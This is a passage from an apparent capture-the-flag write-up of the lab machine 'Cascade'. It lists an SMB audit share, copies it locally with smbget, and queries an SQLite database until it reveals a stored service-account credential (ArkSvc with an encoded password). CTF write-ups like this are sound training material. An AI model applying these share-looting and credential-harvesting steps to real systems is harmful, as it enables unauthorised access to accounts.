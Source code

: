 ```
  .                                   D        0  Wed Jan 29 23:31:26 2020
  ..                                  D        0  Wed Jan 29 23:31:26 2020
  CascAudit.exe                       A    13312  Wed Jan 29 03:16:51 2020
  CascCrypto.dll                      A    12288  Wed Jan 29 23:30:20 2020
  DB                                  D        0  Wed Jan 29 03:10:59 2020
  RunAudit.bat                        A       45  Wed Jan 29 04:59:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 12:08:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 12:08:38 2019
  x64                                 D        0  Mon Jan 27 03:55:27 2020
  x86                                 D        0  Mon Jan 27 03:55:27 2020

\DB
  .                                   D        0  Wed Jan 29 03:10:59 2020
  ..                                  D        0  Wed Jan 29 03:10:59 2020
  Audit.db                            A    24576  Wed Jan 29 03:09:24 2020

\x64
  .                                   D        0  Mon Jan 27 03:55:27 2020
  ..                                  D        0  Mon Jan 27 03:55:27 2020
  SQLite.Interop.dll                  A  1639936  Sun Oct 27 12:09:20 2019

\x86
  .                                   D        0  Mon Jan 27 03:55:27 2020
  ..                                  D        0  Mon Jan 27 03:55:27 2020
  SQLite.Interop.dll                  A  1246720  Sun Oct 27 12:04:20 2019

                13106687 blocks of size 4096. 7792389 blocks available
```

looking inside the share we find a `exe and bunch of dll` files and we also found `Audit.db` database file. Let's grab all this to our local using `smbget` and analyze them.
```
smbget -R smb://10.10.10.182/Audit$ -U s.smith
```
Let's analyse `Audit.db` file first. Doing `file` command against the `Audit.db` file tell us its a `SQLite 3.x database`.
```
file Audit.db 

Audit.db: SQLite 3.x database, last written using SQLite version 3027002
```

Now, we'll use `sqlite` and attach the `Audit.db` and look at its database and tables.
```sql
sqlite3 Audit.db 

SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .databases
main: /home/mah1ndra/projects/htb/boxes/cascade/Audit-share/DB/Audit.db

sqlite> .tables
DeletedUserAudit  Ldap              Misc            

sqlite> .schema Ldap
CREATE TABLE IF NOT EXISTS "Ldap" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "uname" TEXT,
        "pwd"   TEXT,
        "domain"        TEXT
);

sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```